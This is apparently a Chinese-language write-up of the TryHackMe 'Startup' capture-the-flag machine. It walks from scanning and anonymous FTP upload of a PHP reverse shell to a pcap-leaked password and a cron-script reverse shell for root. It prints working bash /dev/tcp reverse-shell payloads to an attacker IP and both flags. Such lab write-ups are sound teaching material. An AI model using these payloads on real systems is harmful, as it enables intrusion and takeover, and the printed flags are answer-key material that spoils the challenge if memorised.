






# Startup

首先拿到 ip: `10.10.58.37`，並確認機器已上線

`ping 10.10.58.37`


接著使用 nmap 尋找開啟的服務，一樣使用二種不同的模式進行掃描

`nmap -v -Pn 10.10.58.37`


`nmap -v -sV -p- -sC --min-rate 5000 10.10.58.37`


一共發現了以下三個服務

```
21      ftp     vsftpd 3.0.3 (Anonymous ok)
22      ssh     openssh 7.2
80      http    apache 2.4.18
```

相關版本應該是沒有什麼太大的漏洞

掃描過程中發現 ftp 可以使用匿名登入，因此首先使用 `Anonymous` 身分進入 ftp server，並查看有哪些檔案

`ftp 10.10.58.37`



可以發現一個 `notice.txt` 及 `important.jpg`，以下是 `notice.txt` 的內容

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading document
s from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

可以發現似乎有一個使用者 `Maya`

而 `important.jpg` 是一張梗圖，如下


在使用 stego 的工具時發現其實這是一張 png 圖片，另外也使用相關工具也萃取不出甚麼有用的資訊


而 `ftp/` 目錄中沒有任何檔案

ftp 的枚舉部分先到這邊

而另外也可以發現有網頁服務，使用瀏覽器打開看看


看起來這個網頁沒什麼東西 (圖中的 `contact us` 也只是 placeholder 而已)

嘗試使用 dirsearch 及 gobuster 工具尋找隱藏的目錄

`dirsearch --url http://10.10.58.37`



`gobuster dir -u http://10.10.58.37/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`



可以看到，除了首頁的 `index.html` 之外，還找到了一個 `/files/` 路徑

```
/index.html
/files/
```

查看 `/files/` 路徑，發現目錄與 ftp 的地方一樣


而網頁的枚舉部分差不多到這邊

而接下來找不太到方向，因此嘗試對前面發現的使用者 `Maya` 爆破 ssh 密碼，但爆破很久都破不出來

在爆破期間往前翻了一下找到的資訊，發現在 ftp 中的目錄 `ftp/` 具有寫入的權限，而且網頁能夠存取該目錄，因此可以嘗試在該目錄放入 php 的 reverse shell 並訪問該檔案，就能夠取得 initial shell

rshell.php

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.17.31.45/2023 0>&1'");
?>
```

在 ftp 中，先 cd 到該目錄後，使用 `put` 指令進行上傳

`put ./rshell.php`


再次訪問網頁中的 `/files/ftp/` 目錄，即可發現剛才上傳的 reverse shell 已經在裡面了



開啟 reverse shell 接收端後，點擊檔案訪問，即可取得 `www-data` 的 shell


而找一找之後，在 `/recipe.txt` 的地方找到題目要的 recipe


recipe 是 `love`

而也可以在 `/home` 的目錄發現有使用者 `lennie`，但是目前沒有權限訪問該目錄，拿不到 userflag


而後一直尋找可能的提權方法，像是說爆破 `lennie` 的 ssh password 及嘗試利用 kernel 提權漏洞之類的，但都沒辦法成功，只好偷偷看了一下題目提示: `Something doesn't belong.`，猜測可能是跟某個檔案有關

而後繼續逛逛，在 `/incidents/suspicious.pcapng` 的地方發現了神秘的封包記錄檔，利用前面的 `ftp/` 路徑作為下載點下載到 kali 中

觀察封包 hierarchy，發現有 `data` 資料可以看，依此進行 filter


仔細觀察後，發現封包 175 ~ 198 似乎有 www-data 的使用者嘗試用一組神秘的密碼 `c4ntg3t3n0ughsp1c3` 進行登入但失敗，懷疑這個密碼其實是 `lennie` 的

`ssh lennie@10.10.58.37`



成功登入取得 `lennie` 的 shell

userflag 在 `~/user.txt` 中



`THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

接下來是提權部分，首先嘗試用 `sudo -l` 查看有哪些 sudo 權限可以用，但發現沒有可以用的


而也檢查了 `/etc/crontab`，看有沒有奇怪的 cronjob，但也都看起來正常


也檢查有沒有 suid 之類的，但也沒找到


而檢查了家目錄中的檔案，目錄結構如下

```
~
|- .cache
|    |- motd.legal-displayed
|
|- Documents
|    |- concern.txt
|    |- list.txt
|    |- note.txt
|
|- Scripts
|    |- planner.sh
|    |- startup_list.txt
|
|- user.txt
```

其中的 `motd.legal-displayed` 及 `startup_list.txt` 是空的，以及 `user.txt` 在前面已經看過之外，以下是檔案的內容及權限

concern.txt (root, 644):

```
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
```

list.txt (root, 644):

```
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
```

note.txt (root, 644):

```
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
```

planner.sh (root, 755):

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

而從 `planner.sh` 中所看到的 `/etc/print.sh` 內容如下

print.sh (lennie, 700)

```bash
#!/bin/bash
echo "Done!"
```

而我原先從 `note.txt` 猜測可能跟 log 有關，但是也找不到有用的資訊，偷偷查看一下題目提示: `Scripts...` 將範圍改成 `Scripts/` 資料夾中的東西後也猜不出個所以然，因此偷偷看了一下[別人的 writeup](https://apjone.uk/tryhackme-startup-spicehut/)發現原來有不知道哪裡設定的 cronjob 會用 root 身分執行 `scripts/planner.sh`，因此只要在可控制的 `print.sh` 中做修改加入 reverse shell `bash -i >& /dev/tcp/10.17.31.45/2023 0>&1`，即可取得 root 的 reverse shell


取得 `root` 的 shell

rootflag 在 `/root/root.txt`


`THM{f963aaa6a430f210222158ae15c3d76d}`

至此，已取得這台機器的完整權限